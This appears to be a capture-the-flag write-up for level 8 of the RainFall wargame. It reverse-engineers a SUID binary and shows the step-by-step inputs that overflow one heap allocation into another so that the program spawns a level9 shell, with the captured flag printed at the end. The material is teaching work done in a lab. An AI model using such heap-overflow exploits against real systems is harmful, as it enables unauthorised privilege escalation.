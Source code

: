 # Level 8 Walkthrough

In this level, we exploit a logic flaw in how heap memory is allocated and accessed to modify memory outside of its bounds. By doing so, we trick the program into calling `system("/bin/sh")` and gain access to the next user's shell. This challenge showcases the subtle power of heap-based logic bugs.

---

## Who am I?

Before diving into the binary’s behavior, we identify our current user context to confirm the environment:

```
level8@RainFall:~$ id
uid=2008(level8) gid=2008(level8) groups=2008(level8),100(users)
```

## Where am I?

Let’s explore the directory to see what we’re working with:

```
level8@RainFall:~$ ls -l
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8*
```

We find a SUID binary owned by `level9`. Our mission is to exploit this binary in order to retrieve the contents of `/home/user/level9/.pass`.

---

## Binary Behavior

We begin by launching the binary to get an idea of its runtime behavior:

```
level8@RainFall:~$ ./level8
(nil), (nil)
```

The program displays two `NULL` pointers followed by a prompt for user input. At this stage, the purpose of these pointers is unknown. We suspect they relate to internal state, but need further inspection.

To get a clearer picture, we reverse-engineered the binary using Ghidra. Here is the decompiled `main()` function:

```c
undefined4 main(void)
{
  char cVar1;
  char *pcVar2;
  char *pcVar3;
  char *pcVar4;
  int iVar5;
  uint uVar6;
  byte *pbVar7;
  byte *pbVar8;
  bool bVar9;
  undefined1 uVar10;
  undefined1 uVar11;
  bool bVar12;
  undefined1 uVar13;
  byte bVar14;
  byte local_90 [5];
  char local_8b [2];
  char acStack_89 [125];

  bVar14 = 0;
  do {
    printf("%p, %p \n",auth,service);
    pcVar4 = fgets((char *)local_90,0x80,stdin);
    ...
```

The function is quite long, but the key logic revolves around parsing commands like `auth`, `reset`, `service`, and `login`. We identified that the two `NULL` pointers displayed at the beginning correspond to two global variables: `auth` and `service`. These are manipulated by the commands the user types.

For clarity, here is a simplified version of the control flow:

```c
if (strncmp(input, "auth", 5) == 0) {
    auth = malloc(4);
    memset(auth, 0, 4);
    if (strlen(input + 5) < 31) {
        strcpy(auth, input + 5);
    }
}

if (strncmp(input, "reset", 5) == 0) {
    free(auth);
}

if (strncmp(input, "service", 7) == 0) {
    service = strdup(input + 7);
}

if (strncmp(input, "login", 5) == 0) {
    if (*(auth + 32) != 0) {
        system("/bin/sh");
    } else {
        fwrite("Password:\n", 1, 10, stdout);
    }
}
```

Now that we have a clearer understanding of the program logic, we can reason through a potential path to exploitation.

---

## Understanding the Exploit

Let’s break down the goal and how we can manipulate the program to reach it.

### Objective

The critical condition is:

```c
if (*(auth + 32) != 0)
```

This tests whether the **33rd byte** of `auth` (i.e., `auth[32]`) is non-zero. If it is, the program spawns a shell with `system("/bin/sh")`.

### Vulnerability

Here’s the key:

* `auth` is allocated with only **4 bytes**, and initialized to zero.
* The `service` buffer is created using `strdup()`, which copies user input into a new allocation placed **after** `auth` on the heap.
* A long input to `service` allows us to **overwrite adjacent memory**, including `auth[32]`.

So, if we can write 32 bytes into `service`, we can overflow into `auth[32]` and set it to a non-zero value, which triggers the shell when calling `login`.

### Important Detail

However, there’s a condition on the `auth` command: it only performs `strcpy()` if the string after `auth` is less than 31 characters. If this condition is not met, `auth` remains `NULL`. Then, the program crashes when trying to read from `auth[32]`.

So to proceed safely:

* The string after `auth` must be short (e.g., `test`)
* The string after `service` must be at least 32 characters to reach `auth[32]`

---

## Crafting the Exploit Step-by-Step

We now test the exploit step by step, applying what we just reasoned about.

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
```

🔹 At this point, both `auth` and `service` are `NULL`. No memory has been allocated yet.

---

```bash
auth test
0x804a008, (nil)
```

🔹 This creates a 4-byte `auth` buffer on the heap (at address `0x804a008`). The string `"test"` is copied into it. Since the input is less than 31 characters, the `strcpy()` executes correctly.

Memory layout:

```
0x804a008 : 't'
0x804a009 : 'e'
0x804a00A : 's'
0x804a00B : 't'
```

---

```bash
service $(python -c 'print("A"*32)')
0x804a008, 0x804a018
```

🔹 The program allocates a new buffer for `service` at `0x804a018` and copies 32 `A` into it. Because the chunk is right after `auth`, this overflows into the next chunk, touching `auth[32]`.

Visualisation mémoire (simplifiée) :

```
...    <- auth (4 bytes) at 0x804a008
...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA <- service (32 A) at 0x804a018
^ overflows to byte 33 of auth (auth[32])
```

This means: `auth[32] = 'A'` → so `*(auth + 32) != 0`.

---

```bash
login
```

🔹 The program checks `auth[32]`, sees that it’s non-zero (`'A'` = `0x41`), and calls `system("/bin/sh")`.

We now have a shell:

```bash
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

Exploit succeeded.

---

## Files in this repository

Here’s what this level’s directory contains:

* `flag.txt`: file containing the retrieved flag
* `decompiled_level8/`: folder containing the reconstructed C code from Ghidra and a simplified version
* `asm_analysis.md`: GDB analysis of the binary

---

## Conclusion

This level highlights a subtle but powerful logic flaw in heap memory handling:

* By overflowing memory allocated after `auth`, we modify `auth[32]` indirectly
* This causes the condition in `login` to trigger `system("/bin/sh")`

Through a simple abuse of heap layout and input length, we obtain a shell as `level9` and access the protected flag.

